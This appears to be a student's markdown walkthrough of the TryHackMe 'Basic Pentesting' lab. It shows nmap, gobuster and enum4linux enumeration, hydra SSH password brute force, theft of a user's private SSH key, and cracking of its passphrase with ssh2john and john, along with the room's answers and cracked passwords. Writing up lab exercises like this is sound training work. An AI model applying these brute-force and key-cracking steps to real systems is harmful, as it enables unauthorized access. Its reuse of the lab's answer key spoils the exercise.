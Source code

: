 # Basic Pentesting Wlakthrough
### Link
- https://tryhackme.com/room/basicpentestingjt
------------------------
### Namp
- Find the services exposed by the machine
    - sudo nmap -sV -sC -oN [Path]/[Result File name].txt [IP]
    - Findings:
        - Open port: 22 / 80 / 139 / 445 / 8009 / 8080
        - Service exposed : smb
    - picture: [Basic_Pentesting_1.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_1.png)
    - picture: [Basic_Pentesting_2.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_1.png)
### Gobuster
- Find directories
    - sudo gobuster dir -u [IP] -w [path]/directory-list-2.3-medium.txt
    - picture: [Basic_Pentesting_3.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_3.png)

- *What is the name of the hidden directory on the web server(enter name without /)?*
    - **Answer**: development
### Analyze development folder
- Connect to /devolpment
    - [IP]/development
        - 2 files available: **dev.txt** and **J.txt**
        - picture: [Basic_Pentesting_4.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_4.png)
    - Analyze these 2 files
        - **dev.txt**
        > I'm using version 2.5.12

        > SMB has been configured

        > I got Apache set up. Will put in our content later.
        - **J.txt**
        > /etc/shadow to make sure we don't have any weak credentials,

        > and I was able to crack your hash really easily
### Search user - enum4linux
- For this step, we can use **enum4linux**
    - sudo enum4linux -a [IP]
    - result: [Basic_Pentesting_5.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_5.png)
 - What is the username?
    - **Answer**: jan
- What is the name of the other user you found(all lower case)?
    - **Answer**: kay
### Brute force Jan account
- For this step, we can use hydra
    -  hydra -l jan -P [path]/rockyou.txt ssh://[IP]
    - result: [Basic_Pentesting_6.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_6.png)
- What is the password?
    - **Answer**: armando

### Gain access to the machine
- For this step, we use SSH
    - picture: [Basic_Pentesting_7.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_7.png)
- What service do you use to access the server(answer in abbreviation in all caps)?
    - **Answer**: SSH
- Check /etc/passwd
    - picture: [Basic_Pentesting_8.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_8.png)
- Move to kay directory
    - /home/kay
- Check all files, hidden files included
    - ls -la
    - picture: [Basic_Pentesting_9.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_9.png)
    - Check all folders available. **.ssh** is accessible. We have public and private key.
    - We can access the private key **id_rsa**
        - Copy the private key
        - Create file on your local machine and try to access the targeted machine through SSH with kay private key
            - ssh -i id_rsa kay@[IP]
        - Result: We need password/passphrase
        - picture: [Basic_Pentesting_10.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_10.png)
### Obtain  hte password
- Previously, under /home/kay, we found the public and private key. We also know, from **J.txt**, the password is really easy to crack.
- From the public **id_rsa.pub**, let's try to obtain the hash by using ssh2john.py
    - /usr/share/john/ssh2john.py ./id_rsa > jay_hash.txt
- Now, use johntheripper
    - john jay_hash.txt
        - Result: 
        > Cost 1 (KDF/cipher [0=**MD5**/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
- This result means the encryption used is **MD5** so we can try with johntheripper to obtain the password
    - john jay_hash.txt --wordlist=[path]/rockyou.txt
        - Result:
        > beeswax
- Try one more time to access the server
    - ssh -i id_rsa kay@[IP]
    - Use the password
    - picture: [Basic_Pentesting_11.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_11.png)
- Navigate. We found the file **pass.bak**
- What is the final password you obtain?
    - **Answer**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    - picture: [Basic_Pentesting_12.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_12.png)


